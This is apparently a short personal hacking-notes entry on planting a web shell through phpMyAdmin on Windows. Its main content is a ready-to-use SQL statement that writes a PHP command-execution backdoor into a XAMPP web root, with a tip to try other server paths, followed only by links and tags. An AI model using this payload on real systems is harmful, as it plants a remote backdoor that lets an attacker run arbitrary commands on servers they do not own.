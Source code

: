 # PhpmyAdmin write shell Windows
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

` zet/20221003150552/README.md `

# Related

- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- ~/kb/hacking/common-commands.md

Tags:

    #command #hacking
